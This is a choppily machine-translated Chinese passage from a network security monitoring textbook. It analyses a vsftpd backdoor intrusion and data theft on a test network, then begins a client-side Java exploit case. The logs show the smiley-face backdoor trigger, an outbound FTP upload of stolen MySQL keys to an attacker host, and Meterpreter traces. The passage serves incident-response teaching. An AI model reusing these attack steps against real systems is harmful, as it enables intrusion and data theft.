通过这些密码，他可以直接访问系统，而不需要

破门而入，使用漏洞进行攻击。

我们现在对这个案例有了很好的了解，但这就是结局吗？

故事怎么样了？

***入侵者还做了什么？***

为了进一步了解发生了什么，我们需要

仔细查看此案例的其他两个方面。首先，注意图 10-8 中的内容

192.168.3.5 并不是 203.0.113.10 的唯一目标。我们还看到活动

**222** 第十章

[www.it-ebooks.info](http://www.it-ebooks.info/)

涉及端口 21 和 6200 TCP 到 192.168.3.13。我们生成了一个端口 21 TCP 的记录，以查看 192.168.3.13 发生了什么。清单 10-10 显示了

结果。

传感器名称：sovm-eth1

时间戳：2013-03-09 21:46:37

连接 ID：.sovm-eth1_1362865597000002352

源 IP：203.0.113.10（未知）

目标 IP：192.168.3.13x（未知）

源端口：49220

目标端口：21v

操作系统指纹：203.0.113.10:49220 - UNKNOWN [S10:63:1:60:M1460,S,T,N,W4:.:?:?]（上线：2 小时）操作系统指纹：-> 192.168.3.13:21（连接：以太网/调制解调器）

DST: 220 (vsFTPd 2.3.5)w

DST:

SRC: 用户 1dxF:)u

SRC:

DST: 331 请指定密码。

DST:

SRC: 密码 0ibjZ

SRC:

DST: 530 登录不正确.y

DST:

DST: 500 OOPS:

DST: vsf_sysutil_recv_peek: 无数据

DST:

*清单 10-10：从 203.0.113.10 到 192.168.3.13 的 FTP 连接记录*

我们可以看到入侵者尝试了相同的笑脸攻击 u 针对

FTP 服务器 v 和 w 在 192.168.3.13 x 上，但他收到了一个粗鲁的登录

错误 y 返回不正确。攻击失败。此外，根据

NSM 会话数据中，没有连接到端口 6200 TCP

192.168.3.13，告诉我们 192.168.3.13 没有受到此攻击的影响。

现在我们必须确定 192.168.3.5 可能还发生了什么。

我们看到入侵者连接到 FTP 服务器，并与一个后端互动

门口。他有做其他事情吗？为了回答这个问题，我们运行一个

针对涉及受害者 192.168.3.5 的所有会话，进行新的会话数据查询，如下所示

如清单 10-11 所示，结果显示在图 10-11 中。

WHERE sancp.start_time > '2013-03-09' AND sancp.src_ip = INET_

ATON('192.168.3.5') AND dst_port!=137 AND dst_port!=138

*清单 10-11：涉及 192.168.3.5 的会话数据查询语法*

在运行此查询时，我添加了命令来忽略端口 137 和

138，因为当我第一次查看数据时，我看到许多不相关的会话

这些 Windows 服务的记录。因为它们与此

事件中，我已经将它们从图 10-11 中显示的输出中移除。

服务器端被攻破 **223**

[www.it-ebooks.info](http://www.it-ebooks.info/)

*图 10-11：192.168.3.5 的会话数据*

我们已经在早期的结果中看到了一些这种活动，但我们在这里关注的

是 192.168.3.5，而不是 203.0.113.10。最有趣的新记录涉及

在 203.0.113.0/24 网段中，两个新的 IP 地址：203.0.113.77 和

203.0.113.4。这两个 IP 地址出现在会话记录中，开始时-

2013-03-10 01:59:43 开始的日志。显然，我们的原始入侵者要么是

与同事合作，或者他控制着这些系统！

我建议至少创建涉及系统的概念性图表

在试图理解事件范围时使用 NSM。你不会识别出

无法识别所有受害系统与远程攻击者之间的基础设施，

但将它们以可视化的方式展示，可以帮助你更好地识别发生了什么

在实际案例中，图 10-12 总结了我们当前的理解。

涉及此案例的所有系统。

**探索会话数据**

让我们考虑通过查询受害者 IP 地址发现的新会话

确定事件范围时，请记住这一简单规则：

入侵中的唯一不变因素是受害者。入侵者可能会通过改变攻击系统来伪装

通过跳转到不同的攻击系统来隐藏他们的活动

从平台到攻击平台；事件响应者如果过于关注攻击者

IP 地址将错过这些跳跃。牢记受害者，你就不会

不要被愚弄。

**224** 第十章

[www.it-ebooks.info](http://www.it-ebooks.info/)

入侵者 1

互联网

203.0.113.10

NSM

入侵者 2

入侵者 3

203.0.113.77

203.0.113.4

测试

网络

轻触

服务器

192.168.3.5

桌面

192.168.3.13

*图 10-12：此案例中观察到的系统*

请注意，在图 10-11 中，我们从受害者 IP 地址发出的三个 DNS 查询开始

通过 192.168.3.5 开始的日志，时间为 2013-03-09 21:40:35\。我们可以使用 Sguil

控制台尝试为每个会话生成 Wireshark 输出，以便查看

查询和回复，但我们将引用由 Bro 捕获的 DNS 日志，

存储在 */nsm/bro/logs/2013-03-09* 目录中。正如你将看到的，Bro 日志是一种事务数据和元数据的形式。

***搜索 Bro DNS 日志***

有很多方法可以搜索 Bro DNS 日志中的特定条目。一种简单的方法是

这种方式来自命令行，如列表 10-12 所示\。

$ **zcat dns.21\:31\:10-22\:00\:00.log.gz | bro-cut -d | grep 192.168.3.5 |**

**grep -v WORKGROUP**

*-- snip --*

2013-03-09T21:40:35+0000 k3hPbe4s2H2 192.168.3.5u 60307

192.168.3.1 53 udp 40264 2.3.168.192.in-addr.arpaw 1

C_INTERNET 12 PTRv - - F F T F

0 --

2013-03-09T21:47:08+0000 i1zTu4rfvvk 192.168.3.5x 36911

192.168.3.1 53 udp 62798 www.google.comz 1

C_INTERNET 1 A - - F F T F

0 - -

2013-03-09T21:47:18+0000 H5Wjg7kx02d 192.168.3.5y 49467

192.168.3.1 53 udp 32005 www.google.com.localdomain{ 1

C_INTERNET 1 A - - F F T F

0 --

*列表 10-12：Bro 记录的 DNS 记录*

服务器端入侵 **225**

[www.it-ebooks.info](http://www.it-ebooks.info/)

首先，我们使用 zcat，因为 Bro 日志是 *gzip* 压缩的。接下来，我们将结果通过管道传递给 bro-cut 并使用 -d 切换，这样可以将 Bro 的原生 Unix

将时间戳格式转换为人类可读的版本。然后我们用 grep 搜索 IP

受害者的地址 192.168.3.5，接着使用 grep 来忽略（使用 -v

切换）任何包含 WORKGROUP 的记录。Bro 的日志包含 DNS 查询和

回复，以及我们删除的 NetBIOS 名称服务流量的日志

使用 bro-cut -d。默认情况下，这种语法会省略这些记录的头部。

如你在列表 10-12 中看到的，192.168.3.5 u 查询了一个 PTR 记录 v

查询 *2.3.168.192.in-addr.arpa* w，这可能与入侵无关。

然后七分钟后，系统 x y 查询了 *www.google.com* z 和

*www.google.com.localdomain* {. 这最后两个 DNS 查询对应于

入侵者尝试 ping *www.google.com* 的记录。在 Bro 日志中看到头部

可以帮助我们更好地理解它们。一种查看头数据的方法是避免使用

将输出通过 bro-cut 进行管道处理。相反，使用 head 限制输出

命令，如列表 10-13 所示\。

$ **zcat dns.21\:31\:10-22\:00\:00.log.gz | head**

#separator \x09

#set_separator ,

#empty_field (空)

#unset_field -

#path dns

#open 2013-03-09-21-31-10

#fields ts uid id.orig_h id.orig_p id.resp_h

id.resp_p proto trans_id query qclass qclass_name qtype

qtype_name rcode rcode_name AA TC RD RA Z

answers TTLs

#types time string addr port addr port enum count string

count string count string count string bool bool bool bool

count vector[string] vector[interval]

*列表 10-13：Bro DNS 日志中的字段和数据类型*

***搜索 Bro SSH 日志***

在三个 DNS 条目之后，图 10-11 显示了 203.0.113.77 正在 ping

192.168.3.5 通过 IP 协议 0，ICMP。这是我们看到的第一条来自

203.0.113.77\。

下一个记录显示从 203.0.113.77 到 22 端口 TCP 的流量

192.168.3.5\. 这很可能是 SSH 流量，我们可以通过查看完整的

内容数据或通过检查几个 Bro 日志。例如，在 *2013-03-10*

在目录中，我们看到列表 10-14 中显示的条目出现在 *ssh.log* 中。（请注意，在

为了查看字段的头部，我们省略了使用 bro-cut，就像我们之前做的那样

列表 10-13。）该列表显示了整个日志，因为它只包含一条

感兴趣的条目。

**226** 第十章

[www.it-ebooks.info](http://www.it-ebooks.info/)

$ **zcat ssh.02\:03\:29-03\:00\:00.log.gz | bro-cut -d**

2013-03-10T02:01:10+0000 8zAB2nsjjYd 203.0.113.77u 65438

192.168.3.5v 22 成功 INBOUND SSH-2.0-OpenSSH_5.8p2_hpn13v11

FreeBSD-20110503 SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1 16678 AU

- - - -

*列表 10-14：Bro 记录的 SSH 连接*

列表 10-14 显示 203.0.113.77 u 通过 SSH 连接到 192.168.3.5 v。

要理解其余字段，我们需要知道这些字段的头部

日志文件。列表 10-15 显示了 Bro SSH 日志中的头部，后面是

同样的 SSH 记录，显示 203.0.113.77 连接到 192.168.3.5\。

$ **zcat ssh.02\:03\:29-03\:00\:00.log.gz**

#separator \x09

#set_separator ,

#empty_field (空)

#unset_field -

#path ssh

#open 2013-03-10-02-03-29

#fields ts uid id.orig_h id.orig_p id.resp_h

id.resp_p status direction client server resp_size

remote_location.country_code remote_location.region remote_location.city

remote_location.latitude remote_location.longitude

#types time string addr port addr port string enum string

string count string string string double double

1362880870.544761 8zAB2nsjjYd 203.0.113.77 65438

192.168.3.5 22 成功 INBOUND SSH-2.0-OpenSSH_5.8p2_hpn13v11

FreeBSD-20110503u SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1v 16678 AU

- - - -

#close 2013-03-10-03-00-00

*清单 10-15：由 Bro 记录的 SSH 连接，带有头部信息*

客户端和服务器字段最为有趣。客户端列出

作为 SSH-2.0-OpenSSH_5.8p2_hpn13v11 FreeBSD-20110503 u，服务器是

SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1 v。虽然你可以轻松识别出

SSH 的服务器版本，因为你拥有该系统，系统提供的信息

客户端（入侵者）运行 FreeBSD，可能是有趣的。知道确切的

客户端的 OpenSSH 版本（再次，入侵者）也可能帮助你

将攻击归因或将其与其他事件数据关联。

不幸的是，SSH 会话的内容是加密的，意味着

你不能通过网络中心手段解密它们。如果系统

如果安装了类似 OSSEC 的主机中心工具，可能已经有数据可用-

可以从本地系统进行检查，但会话记录显示了

2013-03-10 02:01:10 开始的 SSH 会话并在 02:03:24 终止\。

我们能否通过这个加密会话知道入侵者做了什么？最后几个会话-

会话记录有助于回答这个问题。

服务器端的妥协 **227**

[www.it-ebooks.info](http://www.it-ebooks.info/)

***搜索 Bro FTP 日志***

在 2013-03-10 02:02:50 的图 10-11 中，我们看到一个出站的 FTP 会话

从 192.168.3.5 到 203.0.113.4。如果这确实是一个 FTP 会话，我们应该是

可以构建转录以查看内容。我们还可以快速检查

Bro FTP 日志，如清单 10-16 所示\。

$ **zcat ftp.02\:03\:11-03\:00\:00.log.gz**

#separator \x09

#set_separator ,

#empty_field（空）

#unset_field -

#path ftpv

#open 2013-03-10-02-03-11

#fields ts uid id.orig_h id.orig_p id.resp_h

id.resp_p 用户 密码 命令 参数 mime_type mime_

描述 文件大小 回复代码 回复消息 标签

extraction_file

#types 时间 字符串 地址 端口 地址 端口 字符串 字符串 字符串

字符串 字符串 字符串 数量 数量 字符串 表格[字符串] 文件

1362880986.113638 FVmgKldpQO5 192.168.3.5w 32904

203.0.113.4x 21 orr <隐藏> STOR ftp://203.0.113.4/./

mysql-ssl.tar.gzu application/x-gzip gzip 压缩数据，来自

FAT 文件系统（MS-DOS、OS/2、NT） - 226 传输完成。

- -

#close 2013-03-10-03-00-00

*清单 10-16：Bro FTP 日志*

在这里，我们看到有人成功地传输了一个名为的文件

*mysql-ssl.tar.gz* 通过 FTP 从 192.168.3.5 传输到 203.0.113.4。该

转录显示了更多的信息，如清单 10-17 所示\。

传感器名称：sovm-eth1

时间戳：2013-03-10 02:02:50

连接 ID：.sovm-eth1_1362880970000002980

源 IP：192.168.3.5（未知）

目标 IP：203.0.113.4（未知）

源端口：32904

目标端口：21

操作系统指纹：192.168.3.5:32904 - Linux 2.6（更新版，1）（在线时长：5 小时）

操作系统指纹：-> 203.0.113.4:21（距离 0，链路：以太网/调制解调器）

目标：220 freebsdvmw FTP 服务器（版本 6.00LS）准备就绪。

目标：

源：用户 orrv

源：

目的：331 需要密码才能进入 orr。

目的：

源：PASS bobbyu

**228** 第十章

[www.it-ebooks.info](http://www.it-ebooks.info/)

源：

目的：230 用户 orr 登录。

目的：

源：SYST

源：

目的：215 UNIX 类型：L8 版本：BSD-199506x

目的：

源：TYPE I

源：

目的：200 类型设置为 I。

目的：

源：PORT 192,168,3,5,128,244

源：

目的：200 PORT 命令成功。

目的：

源：STOR mysql-ssl.tar.gz

源：

目的：150 打开二进制模式数据连接用于 'mysql-ssl.tar.gz'。

目的：

*列表 10-17：入侵者到 203.0.113.4 的 FTP 命令通道转录*

我喜欢这个人。他的密码是 bobby u，用户名是 orr v。这个

FTP 服务器运行在标识为 freebsdvm w 的系统上，

UNIX 类型 L8 版本：BSD-199506 x。我们可以使用这些信息来

如果适当，可能将此案件与其他案件关联。

我们不知道入侵者是如何获取此文件内容的。

我们能确定里面有什么吗？

***解码敏感数据的盗窃***

事实上，我们可以通过我们 NSM 平台进行的完整内容数据收集来检索 *mysql-ssl.tar.gz* 压缩包。我们将派生提取

使用 Sguil 工具重建的内容数据来自完整内容数据

转录文件，称为 Tcpflow（*https://github.com/simsong/tcpflow*）。Jeremy Elson 编写了 Tcpflow 的第一个版本，但近年来，Simson Garfinkel 接管了该项目。

承担了该项目的责任。

Tcpflow 重建 TCP 会话。例如，在列表 10-18 中，我们

告诉 Tcpflow 重建所有涉及端口 20 的 TCP 会话，这是用于

用于会话记录中显示的活动 FTP 数据通道。

$ **tcpflow -r /nsm/sensor_data/sovm-eth1/dailylogs/2013-03-10/snort.log.1362873602 port 20**u $ **ls**v

192.168.003.005.33012-203.000.113.004.00020w 203.000.113.004.00020-192.168.003.005.56377x report.xmly

$ **file ***z

192.168.003.005.33012-203.000.113.004.00020{: gzip 压缩数据，来自 Unix，最后修改时间：2013 年 3 月 10 日 02:02:23

203.000.113.004.00020-192.168.003.005.56377|: ASCII 文本，带 CRLF 行终止符

report.xml：XML 文档文本

服务器端妥协 **229**

[www.it-ebooks.info](http://www.it-ebooks.info/)

$ **cat 203.000.113.004.00020-192.168.003.005.56377**

总计 1936

drwxr-xr-x 2 orr orr 512 Mar 9 21:03 .

drwxr-xr-x 4 root wheel 512 Mar 9 20:47 ..

-rw-r--r-- 1 orr orr 1016 Mar 9 20:47 .cshrc

-rw-r--r-- 1 orr orr 254 Mar 9 20:47 .login

-rw-r--r-- 1 orr orr 165 Mar 9 20:47 .login_conf

-rw------- 1 orr orr 381 Mar 9 20:47 .mail_aliases

-rw-r--r-- 1 orr orr 338 Mar 9 20:47 .mailrc

-rw-r--r-- 1 orr orr 750 Mar 9 20:47 .profile

-rw------- 1 orr orr 283 Mar 9 20:47 .rhosts

-rw-r--r-- 1 orr orr 980 Mar 9 20:47 .shrc

-rw-r--r-- 1 orr orr 915349 Mar 9 21:03 mysql-ssl.tar.gz}

*列表 10-18：Tcpflow 重建涉及端口 20 的会话*

列表 10-18 首先展示了如何针对有趣的跟踪记录运行 Tcpflow，

使用 BPF 限制重建只涉及端口 20 的流量 u。接下来，我们

查看 Tcpflow 重建的输出，以目录列表的形式呈现

输出显示了网络会话的两个方面，以两个

文件 w 和 x，以及一个描述 Tcpflow 操作的*report.xml*文件 y。接下来，我们使用 file z 命令来显示这些文件的类型。

***提取被窃取的归档***

文件*192.168.003.005.33012-203.000.113.004.00020* {是一个*gzip*归档文件，在 FTP 会话期间传输。文件*203.000.113.004.00020-192*

*.168.003.005.56377* | 是一个 ASCII 文本文件，对应于从 FTP 服务器返回到客户端 192.168.3.5 的目录列表。该目录

列表是在入侵者将*mysql-ssl.tar.gz*复制到服务器后传输的。

这确认了*mysql-ssl.tar.gz*的成功传输，因为该文件现在已列出并存储在由入侵者控制的 FTP 服务器上。这个

如果该文件是敏感的归档文件，这对 Vivian’s Pets 来说可能是坏消息。

多亏了捕获完整的内容数据，我们也拥有了*mysql-ssl*

*.tar.gz* 在我们手中。由文件*192.168.003.005*表示的*gzip*归档

*.33012-203.000.113.004.00020* {很可能是入侵者窃取的*mysql-ssl.tar.gz*文件。我们使用 tar 程序提取它，如列表 10-19 所示。

如你所见，它似乎包含与 MySQL 服务器相关的密钥。

$ **tar -xzvf 192.168.003.005.33012-203.000.113.004.00020**

mysql-ssl/

mysql-ssl/yassl-1.9.8.zip

mysql-ssl/my.cnf

mysql-ssl/mysqld.gdb

mysql-ssl/mysql-keys/

mysql-ssl/mysql-keys/server-cert.pem

mysql-ssl/mysql-keys/ca-cert.pem

mysql-ssl/mysql-keys/client-req.pem

mysql-ssl/mysql-keys/server-key.pem

**230** 第十章

[www.it-ebooks.info](http://www.it-ebooks.info/)

mysql-ssl/mysql-keys/server-req.pem

mysql-ssl/mysql-keys/client-key.pem

mysql-ssl/mysql-keys/client-cert.pem

mysql-ssl/mysql-keys/ca-key.pem

*列表 10-19：入侵者窃取的* mysql-ssl .tar .gz *归档文件内容* 拥有这些数据后，Vivian’s Pets CIRT 必须总结

了解发生了什么，以便全面理解入侵。

**回顾**

在 NSM 过程中的这一阶段，CIRT 应考虑它所

在提供建议之前，理解入侵的背景对 Vivian's Pets 来说是非常重要的

所有者。通过插图描述每个阶段发生的事情是一个

有帮助的分析步骤。

***总结第一阶段***

图 10-13 总结了此次入侵的前几个阶段，我们可以

第一阶段\。

1\. 入侵者对两个潜在的受害者进行侦察。

网络扫描

受害者 1

入侵者 1

192.168.3.5

203.0.113.10

受害者 2

192.168.3.13

2\. 入侵者利用受害者 1 上的 vsftpd 服务\。

受害者 1

网络连接

192.168.3.5

入侵者 1

203.0.113.10

被利用

3\. 入侵者连接到受害者 1 上的后门\。

网络连接

入侵者 1

受害者 1

203.0.113.10

192.168.3.5

4\. 入侵者未能利用受害者 2 上的 vsftpd 服务\。

网络连接

受害者 2

入侵者 1

192.168.3.13

203.0.113.10

安全

*图 10-13：服务器端入侵的第一阶段*

服务器端入侵 **231**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在第一阶段，203.0.113.10 上的入侵者对两台计算机进行了网络侦察：192.168.3.5 和 192.168.3.13。入侵者

发现两台系统都在监听 21 端口 TCP，因此他尝试通过 FTP 来

他成功地攻破了 vsftpd 服务，并在两个目标上都利用了该服务。

192.168.3.5 上的服务器遭到入侵，导致 TCP 端口 6200 打开了后门。

那个系统。他无法使用相同的技术获得未经授权的访问。

授权访问 192.168.3.13。

***总结第二阶段***

图 10-14 总结了此入侵的其余部分，称为第二阶段。

5. 入侵者 2 通过 SSH 连接到受害者 1。

SSH 连接

入侵者 2

受害者 1

203.0.113.77

192.168.3.5

6. 入侵者 2 指示受害者 1 上传

将被盗数据上传到入侵者 3 的 FTP 服务器。

SSH 连接

入侵者 2

203.0.113.77

受害者 1

FTP 连接

192.168.3.5

入侵者 3

203.0.113.4

*图 10-14：服务器端入侵的第二阶段*

在第二阶段，一个新的入侵者 IP 地址，203.0.113.77，通过 SSH 连接到

192.168.3.5。与受害者互动时，入侵者创建或删除了某些文件。

覆盖了一个名为*mysql-ssl.tar.gz*的归档文件。然后，他通过 FTP 将该归档文件上传到第三台系统，203.0.113.4，该系统可能是另一个 FreeBSD 系统。

***下一步***

如第九章所述，升级和解决是 NSM 工作流程中的两个阶段。

收集和分析阶段之后，NSM 工作流程的后续阶段。

完成后，CIRT 必须确定受影响系统的所有者，

并解释被识别为被盗数据的性质。反过来， 

资产所有者必须评估数据丢失的影响，并同时考虑

授权 CIRT 采取短期事件遏制措施时。

最有效的遏制机制是从网络中移除被攻破的系统。

网络上的系统。

首先，断开 192.168.3.5 与网络的连接。我们应当考虑

它被认为不可信，因为我们不知道入侵者在

他加密的 OpenSSH 会话。CIRT 还应确定是否有任何

192.168.3.5 上的信息是敏感的，以帮助决定此事件

这个事件符合 Breach 2 或 Breach 1 事件的标准。区别在于

被盗数据的重大性和敏感性。

**232** 第十章

[www.it-ebooks.info](http://www.it-ebooks.info/)

CIRT 应确定是否从 192.168.3.5 获取了任何信息

可能导致其他入侵。是否存在其他账户也可能被

是否用于登录到其他 Vivian’s Pets 系统？是否有配置文件

这些行为是否会使入侵者获得额外的访问权限？是否有配置文件可以被用来登录到其他“Vivian’s Pets”系统？

是否有企业合作伙伴或客户账户存在风险？可能需要涉及企业、法律和其他团队来应对。

在评估入侵影响时，必要时 CIRT 应采取措施。最终，

192.168.3.5 应该被退役，因为它不再是一个可信的平台。

这是 IT 和安全人员的一个深刻教训：当

Metasploitable 开发者警告用户将他们的发行版保密

互联网，他们是认真的！

**结论**

本章讲解了服务器端的妥协。我们利用了多个

使用 NSM 数据的不同形式分析入侵，目标是两台系统

Vivian's Pets 测试网络的应用程序。通过检查警报、会话、完整内容、事务-

通过提取信息和内容数据，我们了解到入侵者窃取了系统的

与 MySQL 相关的信息和压缩归档文件。

我们还了解到，NSM 数据本身无法回答所有问题。

一旦入侵者利用被盗凭证（通过 */etc/passwd* 和 */etc/*

*shadow* 文件）通过 OpenSSH 连接时，我们无法看到他运行的命令，

虽然我们可以看到诸如通过 FTP 上传归档的派生行为。

使用与 Sguil 捆绑的 NSM 工具，我们重建了被盗的归档文件，

虽然我们本可以使用 Wireshark 做类似的重组

或者其他工具。

本案例介绍了攻击模式的概念以及如何分析

使用 NSM 工具和方法处理它们。在下一章中，我们将转到

稍微调整表格并回顾一下客户端妥协。

服务器端妥协 **233**

[www.it-ebooks.info](http://www.it-ebooks.info/)

[www.it-ebooks.info](http://www.it-ebooks.info/)

**11**

**C L I E N T - S I D E C O M P R O M I S E**

在上一章的示例中，

入侵者进行侦察

针对远程目标，识别的服务，

并攻击它们。获取访问权限后

拥有一个易受攻击服务的系统，入侵者

将感兴趣的归档文件提取到一个

远程服务器。所有这些活动都在没有

用户在 Vivian's Pets 上的明确参与

网络。

本章展示了客户端妥协——另一种常见的

你可能会遇到的恶意网络活动的主要类别之一。

虽然此事件涉及远程系统，但入侵者并未主动发起

以与服务器端妥协相同的方式进行攻击。我们将使用

使用类似的 NSM 方法来检测和响应入侵。

[www.it-ebooks.info](http://www.it-ebooks.info/)

**客户端妥协定义**

*客户端妥协* 是指入侵者利用带有

用户交互的应用程序。这个应用程序可以是网页浏览器、电子邮件客户端、

媒体播放器或任何其他程序，用户依赖这些程序访问网络

资源。攻击者可能会诱使用户访问一个被入侵的网站

并揭示她的凭证，或者他可能会简单地定位自己以窃取

利用用户的日常操作。

客户端攻击自 2000 年代中期以来一直很流行，当时攻击者

用户意识到，如果他们能说服一个用户应用程序执行（或被

受到）恶意代码攻击的，他们的攻击更可能成功。

许多组织将资源和专业知识投入到应对服务器端

攻击，但客户端攻击更难以阻止甚至检测。

图 11-1 展示了一个客户端侧妥协的通用攻击模式。

1. 受害者执行恶意代码

系统，在被入侵者诱导后

或者是无辜的计算机使用。

网络钓鱼邮件

入侵者

受害者

或

网站访问

网站托管

受害者

恶意代码

或

社交媒体或其他通信

恶意代码

在社交媒体上

受害者

或其他网站

2. 攻击方法利用了易受攻击的应用程序

在受害者系统上执行代码或命令，

被利用

或运行一个不想要的恶意应用程序。

网络连接

入侵者

受害者

3. 恶意代码导致受害者回溯到入侵者

*图 11-1：客户端妥协攻击模式*

如图 11-1 所示，三种最常见的客户端侧攻击

涉及网络钓鱼邮件、访问网站和与社交媒体的互动。

这是怎么可能的？

**236** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

在这三种攻击中，入侵者创建了某种不安全的通信方式。对于网络钓鱼邮件，可能入侵者附加了一个

恶意可执行文件，如设计用来利用漏洞的文档

应用程序，如 Microsoft Word 或 Adobe Reader。网络钓鱼邮件

或社交媒体也可能包含指向恶意网站的链接，这些网站由

入侵者专门执行攻击。目标网站也可能是一个商业网站

完全合法的页面，例如新闻或体育页面，攻击者已在其中

插入的恶意代码让访问该网站的人遭到妥协。

这些攻击的最新变种被称为 *watering hole*（水坑攻击）或 *strategic website compromise*（战略性网站妥协）攻击。入侵者会妥协一个她预期

让目标访问，可能是人权或智库网站。当感兴趣的

其他方访问该网站时，恶意代码会在他们不知情的情况下攻击他们。

这些攻击相当具有破坏性，因为它们并不完全针对特定目标

（入侵者不能确定她的目标是否会访问该网站），

但是它们可能非常隐蔽，因为受害者在上网时通常

不经意间陷入了这个陷阱。

客户端侧攻击可能导致与服务器端相同的访问级别

攻击（在第十章中讨论）。利用易受攻击的应用程序的尝试

通信，无论是否成功，都是 Cat 3 级事件。如果攻击

如果成功并且入侵者获得了用户级别的访问权限，则此场景现在符合

被标记为 Cat 2 类型的入侵。如果入侵者获得了管理员级别或根级别的权限，

权限，我们必须处理 Cat 1 类型的入侵。一旦入侵者建立了连接，

一旦建立了指挥和控制通道，便是 Breach 3。如果入侵者

开始窃取数据或采取其他行动时，我们可能正在处理一个

漏洞 2 或甚至是漏洞 1 类型的入侵。（请参见图 9-5，位于第 194 页 链接，了解入侵分类定义。）无论是哪种类别，CIRT 的目标

一如既往，快速确定事件的范围并采取

迅速采取行动以遏制攻击并减少数据丢失、篡改的风险，

或退化。

**客户端妥协的实际情况**

本章节的例子中，我们将查看一个客户端妥协的情况，

发生在 Vivian’s Pets 网络上的活动，但涉及不同的计算机。为了

让情况稍微复杂一些，相关活动将

通过一个监控两个段落的 NSM 传感器进行监测。这是一个配置

由 SO 支持的配额，看起来是一个不错的选择，尤其是在硬件

涉及的网络能够支持额外的负载。我们将看看这个决定是否合理—

确认！网络如图 11-2 所示\。

使用此传感器配置，NSM 平台将看到来自

到达无线网络和内部网络之间的数据传输。（我已完全

在这里模拟了网络，以便包括讨论的 NAT 问题

早些时候在书中提到过，但它们并未发挥主要作用。）

客户端妥协 **237**

[www.it-ebooks.info](http://www.it-ebooks.info/)

互联网

点击

无线

网络

点击

NSM

笔记本电脑

内部

172.16.0.37

网络

*图 11-2：Vivian’s Pets 网络上的无线和内部网络段*

***从用户获取事件报告***

有一天下午，Vivian’s Pets CIRT 收到了一位担忧的用户来电。

她报告说登录 Twitter 并搜索发给她的消息，

名字。她注意到一个来自陌生用户名的推文，*Callbackpnsm*，并

该信息有些让人不安。未知的推文提到“更新

转发到我们的健康护理计划”并提供了一个包含 *healthcarenews* 的链接。出于好奇，她将该网址复制并粘贴到 Firefox 浏览器中

浏览器查看情况。图 11-3 展示了那条可疑的推文。

*图 11-3：来自 Callbackpnsm 的推文*

当一个不明或可疑的 Twitter 用户发送一个链接到一个未

识别出网站时，大多数安全分析师会感到紧张。此时，

Vivian’s Pets CIRT 怀疑这位不幸的用户已经上当受骗，

**238** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)



客户端攻击。CIRT 询问用户是否记得看到任何可疑

访问网址后，用户回应说她看到了一些关于

一个 Java 安装程序，当她点击后了解健康

当她查看健康护理更新时，看到的只是一个空白页面。

用户开始担心情况不对劲，于是她决定

转而求助于 CIRT 获得帮助。CIRT 感谢用户提供的信息

报告。现在是时候开始调查了！

***使用 ELSA 开始分析***

开始分析过程的一种方式是查询日志中有关 IP 地址的信息，

那条推文。我们将从 ELSA 开始。

**查询 IP 地址**

首先，我们将确保 ELSA 查询的时间范围开始于用户

经历了这一异常活动后，我们将添加相关的 IP 地址，

203.0.113.15，输入到搜索栏。结果如图 11-4 所示\。

*图 11-4：203.0.113.15 的初始 ELSA 查询结果*

ELSA 告诉我们，它有 244 条记录，但默认情况下，限制为

100 条结果。最早的条目排在最前面。结果并不令人鼓舞。

内容提到恶意 Java 小程序和检测到的漏洞 Java 版本 1.7.x。

看到 0day JRE 17 Metasploit Exploit Class 更是雪上加霜。

幸运的是，我们现在确实找到了受害者的 IP 地址：172.16.0.37\。然而

客户端妥协 **239**

[www.it-ebooks.info](http://www.it-ebooks.info/)





与其滚动浏览多页输出，我们选择程序元素

在屏幕顶部附近查看所有数据源的摘要计数，ELSA 显示

表示此 IP 地址的拥有情况。图 11-5 显示了结果。

*图 11-5：ELSA 显示 203.0.113.15 的日志数据源。*

如您所见，Snort 警报主导了结果，尽管还有

两个 HTTP 记录和一个 Bro 连接日志记录。

**检查 Bro HttP 日志**

点击*bro_http*链接会显示图 11-6 中的结果。

*图 11-6：ELSA 显示 203.0.113.15 的 Bro HTTP 日志记录。*

这两个事件在 ELSA 中具有相同的时间戳，但 Bro 时间戳

时间戳显示最上面的请求先发生。看起来有点奇怪，

鉴于这是对*healthcarenews/Exploit.jar.pack.gz*的请求，第二

记录，时间戳较晚，属于*healthcarenews*页面本身。

看到标题为*Exploit.jar.pack.gz*的下载内容并没有激发

我们需要找到这个受害者系统发生了什么其他情况。

**检查 Snort 警报**

返回到 ELSA 中的第一个打开的标签页时，我们注意到*sig_msg*链接。点击此链接会打开一个新标签页，显示每个 Snort 警报的摘要计数。

与 203.0.113.15 相关，如图 11-7 所示\。

观察到的 Snort 签名摘要包括对

Metasploit Meterpreter，包括 core_channel 和 stdapi，带有命令

请求和命令响应对每个事件都很不鼓舞人心。

**240** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

